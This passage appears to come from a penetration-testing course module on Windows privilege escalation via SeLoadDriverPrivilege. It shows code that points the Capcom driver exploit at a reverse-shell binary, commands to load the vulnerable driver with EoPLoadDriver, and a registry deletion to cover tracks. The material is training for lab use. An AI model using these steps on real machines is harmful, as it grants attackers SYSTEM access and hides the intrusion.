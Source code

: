 The `CommandLine` string in this example would be changed to:

Code: c

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

---

## Automating the Steps

#### Automating with EopLoadDriver

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

Print Operators

```cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

---

## Clean-up

#### Removing Registry Key

We can cover our tracks a bit by deleting the registry key added earlier.

Print Operators

```cmd-session
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER".
#### Use ExploitCapcom Tool to Escalate Privileges
